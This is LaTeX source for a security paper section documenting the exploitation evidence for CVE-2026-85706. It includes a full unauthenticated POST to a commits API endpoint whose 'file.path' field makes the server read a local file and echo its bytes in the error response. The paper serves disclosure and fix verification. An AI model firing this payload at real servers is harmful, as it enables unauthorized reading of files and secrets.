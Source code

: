 \documentclass[journal]{IEEEtran}
\begin{document}
\section{Exploitation Evidence}
\label{sec:exploit}

\subsection{Minimal Payload and Live Wire Capture}

The PoC is one stdlib Python script, sha256 head \texttt{cbed67d59a1e7959}
(full digest in \texttt{evidence/}\hspace{0pt}\texttt{fix-verification/}\hspace{0pt}\texttt{run-20260912-a/}\hspace{0pt}\texttt{closure-matrix.md}), fired unmodified against both arms. Listing~\ref{lst:payload} is the minimal payload, one POST, captured live from the
stock arm's \texttt{api\_json.log} and the golden wire capture. No
authorization header exists in the request at any stage.

\begin{lstlisting}[style=wire, caption={Minimal payload, one unauthenticated
POST to the trailing-slash shape of the commits endpoint on stock
\texttt{19.3.1-ce.0}, verbatim from
\texttt{exploit/\hspace{0pt}tests/\hspace{0pt}golden/}
\texttt{wire-proof-live-capture.txt}, long lines wrapped at column width.},
label={lst:payload}]
POST /api/v4/projects/1/repository/commits/ HTTP/1.1
Host: 172.30.99.20
User-Agent: CVE-2026/1.0.0 (lab PoC; do-not-block:
CVE-2026-85706)
Content-Type: application/x-www-form-urlencoded
Content-Length: 109
Connection: close
Accept: application/json

file=&file.path=%2Ftmp%2Fcve2026-85706-proof.txt
&file.size=1&Content-Type=application%2Fx-www-form-urlencoded
\end{lstlisting}

Listing~\ref{lst:wire} shows the raw response for a planted proof file
containing a bare percent-sign escape, and the 400 body echoes the file bytes
verbatim. The leaked block is 78 bytes with sha256 head
\texttt{17b203a13855}, recorded in the live-gate tail of
\texttt{exploit/README.md} and reproduced by an independent re-fire on
2026-09-13 (\texttt{evidence/}\hspace{0pt}\texttt{parent-refire-78B-}\hspace{0pt}\texttt{20260913T0002Z.txt}).
\texttt{exploit/}\hspace{0pt}\texttt{tests/}\hspace{0pt}\texttt{golden/}\hspace{0pt}\texttt{wire-proof-live-capture.txt}
holds the raw bytes the golden suite replays offline.
\end{document}
